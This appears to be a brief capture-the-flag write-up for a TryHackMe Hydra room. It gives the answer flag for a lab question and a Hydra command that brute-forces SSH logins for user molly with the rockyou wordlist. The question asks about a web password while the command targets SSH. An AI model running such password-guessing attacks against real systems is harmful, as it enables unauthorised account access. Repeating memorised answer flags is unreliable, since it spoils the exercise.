 # <div align="center">[Hydra](https://tryhackme.com/r/room/hydra)</div>


# Use Hydra to bruteforce molly's web password. What is flag 1?


```
THM{2673a7dd116de68e85c48ec0b1f2612e
```



```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 50 
```
